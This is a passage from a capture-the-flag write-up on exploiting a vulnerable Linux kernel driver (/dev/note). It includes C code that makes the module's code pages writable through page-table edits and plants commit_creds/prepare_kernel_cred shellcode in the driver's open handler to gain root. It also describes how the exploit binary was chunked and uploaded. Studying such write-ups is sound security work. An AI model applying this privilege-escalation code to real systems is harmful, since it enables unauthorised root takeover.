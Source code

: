 ```c
unsigned long pte_addr = pageTableWalk(key, moduleBase);
unsigned long default_pte = read64(pte_addr);
write64(pte_addr, default_pte|2);
```

Now we can overwrite codes of the `open` and `ioctl` handlers. However for arbitrary writes `ioctl` is required so I make sure that `open` jumps to a code below `ioctl`, where I write the `commit_cred(prepare_kernel_creds(0))` shellcode. We don't need to return about returning to user safely, if we make sure the `open` handler returns in the same way its original code did.

Also, the addresses for the symbols `commit_cred` and `prepare_kernel_creds` is resolved dynamically during the exploit, so we can't hard-code shellcode into our exploit. So I 'compiled' it. (sorry to all the compilers in the world...)

```c
void commit_creds_and_return() {
	asm volatile ("xor %rdi, %rdi");
	asm volatile ("mov $0xcccccccccccccccc, %rax");
	asm volatile ("call %rax");
	asm volatile ("mov %rax, %rdi");
	asm volatile ("mov $0xdddddddddddddddd, %rax");
	asm volatile ("call %rax");
}

char shellcode[0x1000];
	memcpy(shellcode, commit_creds_and_return, 0xff);
	for(int i = 0; i < 0xff; i++) {
		unsigned long *pppp = &shellcode[i];
		if (*pppp == 0xcccccccccccccccc) {
			printf("[*] patched prepare_kernel_cred\n");
			*pppp = prepare_kernel_cred;
		}
		if (*pppp == 0xdddddddddddddddd) {
			printf("[*] patched commit_creds\n");
			*pppp = commit_creds;
		}
	}
```

Now calling `open` on `/dev/note` will give us root, and we can get the flag.

## Final shit to overcome

I statically compiled my exploit and used a script to upload my binary. Bascially it gzip compresses my exploit, fragments it to pieces of size 800, b64 encodes it and sends it using `echo` and `cat`. Now, my original exploit was huge, taking about 500 chunks. The script timed out at about 300 chunks.

I thought that `pthread` was the culprit, and replaced `pthread` with `clone`. It reduced to about 400?

Then I applied some gcc optimiziation flags (strip symbols, size optimization) but it still was over 400.
